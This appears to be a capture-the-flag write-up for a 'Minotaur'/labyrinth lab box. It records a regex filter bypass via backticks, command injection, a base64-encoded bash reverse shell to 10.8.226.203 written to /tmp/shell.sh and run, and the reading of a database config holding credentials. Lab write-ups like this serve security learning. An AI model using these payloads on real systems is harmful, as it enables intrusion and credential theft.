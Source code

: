 Minotaur is the only worthy stuff here

flag #2
fla6{the_labyrinh_was_not_that_deep}

The guy also got a `secret-suff` page with an echo panel

ugh...regexes `/[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/`

The panel just echoes whatever goes in...it uses a search argument

Fooling around with it it doesnt echo some charachters: `"` (double quote)

some are sanitized : `'` (single quote), `#` (hashtag)...and many more

```
You really think this is gonna be possible i fixed this @Deadalus -\_- !!!?
```

Actually one special char allows us to escape that regex : `` ` `` (that..thing)

Nevermind `|` (pipe vertical bar works too)...

Now I feel like injecting a shell there

```
`id`
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

kudos!...time to get inside (revshells.com)

`` `bash -i >& /dev/tcp/10.8.226.203/2311 0>&1` ``

That didnt work...there must be a sort of filter

base64 encoding the payload it is

`YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjIyNi4yMDMvMjMxMSAwPiYx`

Then injecion...

we decode it on server side and write it to shell.sh

`` `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjIyNi4yMDMvMjMxMSAwPiYx | base64 -d | tee /tmp/shell.sh` ``

```
bash -i >& /dev/tcp/10.8.226.203/2311 0>&1
```

Next we run that shell
`` `/bin/bash /tmp/shell.sh` ``

And we are in

`cat dbConnect.php`

```
<?php

$servername = "localhost";
$db = "labyrinth";
$usr = "root";
$pwd = "";
//$pwd = "bQXHS5KnfGAHaa383nFjT42AUMyWb";
try {
	$conn = new PDO("mysql:host=$servername;dbname=$db", $usr, $pwd);
	$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);


} catch (PDOException $e) {
	die();
}

```